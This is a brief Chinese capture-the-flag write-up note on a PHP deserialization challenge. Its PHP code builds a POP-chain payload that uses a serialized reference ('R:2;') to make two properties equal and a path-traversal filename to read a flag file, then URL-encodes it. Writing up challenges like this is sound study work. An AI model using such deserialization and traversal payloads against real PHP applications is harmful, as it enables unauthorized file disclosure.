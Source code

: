 - # 思路
	- pop
	- 利用指针将nova指向neutron即可
		- ((6478aaed-0cfc-41e3-a12e-55de79af3104))
	- ```
	  acp:: __toString
	  ace:: echo_name
	  	acp -->
	  	if($this->openstack->neutron === $this->openstack->nova)
	  ```
	- ```php
	  $payload = "../../../../../../nssctfasdasdflag";
	  $o3 = new acp();
	  $o3 -> neutron = "";
	  $o3 -> nova = "novaishere";
	  $ser_o3 = serialize($o3);
	  $ser_o3 = str_replace('s:10:"novaishere"', 'R:2;', $ser_o3);
	  $o2 = new ace();
	  $o2 -> docker = $ser_o3;
	  $o2 -> filename = $payload;
	  $o1 = new acp();
	  $o1 -> setcinder($o2);
	  $ser = serialize($o1);
	  var_dump($ser);
	  echo "<br>";
	  echo urlencode($ser);
	  ```